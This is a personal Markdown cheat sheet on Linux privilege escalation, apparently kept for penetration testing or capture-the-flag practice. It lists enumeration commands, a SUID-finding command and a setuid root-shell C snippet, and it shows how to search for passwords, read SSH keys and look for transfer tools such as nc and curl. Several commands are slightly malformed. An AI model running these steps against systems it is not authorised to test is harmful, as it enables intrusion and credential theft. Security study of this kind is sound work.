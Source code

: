   
# Enum  
## Quick Enum
    hostname; ip addr;    
    whoami; id   
    uname -r   
    cat /etc/passwd | grep /bin/bash   
    ls -l /etc/shadow   
    sudo -l  
    ps -aux | grep root 
    
    netstat -antp; arp -a 
    for x in {1 .. 254};do (ping -c 1 l.l.l.$x | grep "bytes from" &); done | cut -d " "
## Scripts
run [lse.sh](https://github.com/diego-treitos/linux-smart-enumeration) with increasing run levels, [linpeas.sh](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS), [linenum](https://github.com/rebootuser/LinEnum) 
## Checklists / What to look for
[gtfobins](https://gtfobins.github.io/) 
- [ ] Fully functional tty? 
- [ ] su root? (no password, root, password) 
- [ ] Sudo binaries? (sudo -l, cat /etc/sudoers)
- [ ] Exploitable cronjobs? 
- [ ] Weird SUID binaries?   
- [ ] Services running as root?, services only available to localhost?
- [ ] Passwords / config files?  
- [ ] Is the kernel vulnerable? (last resort)
[g0tm1lk checklist](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/) 
[Linux Priv Esc Checklist](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md)  

# Exploits
## Upgrade to a fully functional TTY 
    python -c 'import pty;pty.spawn("/bin/bash")' 
    echo os.system('/bin/bash') 
    /bin/sh -i 
    /bin/bash -p 
## Cronjobs    
look for scripts you can write to or exploit  

    cat /etc/crontab  
    crontab -l    
    ls -al /etc/cron* 
## SUID Binaries
    find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \;  2>/dev/null                                 
### Custom Executable
    int main(){
        setuid(0);
        system("/bin/bash -p");
    }
## Services Running as Root / Services Only Running Locally
    ps -aux | grep root
    mysql running as root exploit 
    ftp, telnet - tcpdump to sniff creds??
## Passwords / config files 
    find . -type f -exec grep -i -I "PASSWORD=" {} /dev/null \; 
    /etc/passwd, /etc/shadow, /etc/group  read or write?? 
    cat ~/.ssh  
## Kernel Exploits 
    uname -a  
    cat /etc/*-release
No compilers on host: use gcc-multilib -m32 (32 bit OS) or -m64 (64 bit OS) then upload 
# File Transfer 
    which nmap aws nc ncat netcat nc.traditional wget curl ping gcc g++ make gdb base64 socat python python2 python3 python2.7 python2.6 python3.6 python3.7 perl php ruby xterm doas sudo fetch docker lxc ctr runc rkt kubectl 2>/dev/null 
    

# Resources
## Cheat Sheets 
[g0tmi1k Linux Priv Esc Checklist](https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/)  

## Learn More
